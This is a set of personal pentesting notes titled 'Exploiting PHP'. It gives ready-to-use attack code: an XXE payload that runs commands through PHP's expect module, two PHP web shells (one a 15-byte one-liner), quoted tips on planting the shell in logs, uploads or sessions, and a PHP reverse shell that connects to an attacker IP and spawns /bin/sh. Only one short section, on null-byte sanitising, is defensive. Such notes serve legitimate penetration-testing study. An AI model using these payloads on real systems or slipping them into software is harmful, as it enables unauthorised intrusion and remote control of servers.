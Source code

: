 # Exploiting PHP

author:: Nathan Acks  
date:: 2022-07-11

# RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)

# The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [The Poison Null Byte](poison-null-byte.md)

# Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

## Relevant Twitter Thread

[Did you know the shortest payload to achieve code execution in PHP is only 15 bytes long ? 🤯 If you can inject it in a page on the site you will achieve remote code execution! This is really useful in BugBounty or pentest when you have a limited input size. (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921781637365771)

[To trigger the code execution, you have to find a way to access your injected page (direct access or inclusion) and add this GET parameter to the URL: http://localhost:8000/rce.php?1=id (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921786515435520)

[This payload can be used to be reflected in many files on a web application, for example you can put it: (1) In metadata, (2) somewhere in the logs, (3) in an uploaded file that you control, (4) in your PHP session (it will be written to a file) (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921788742569987)

# Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.
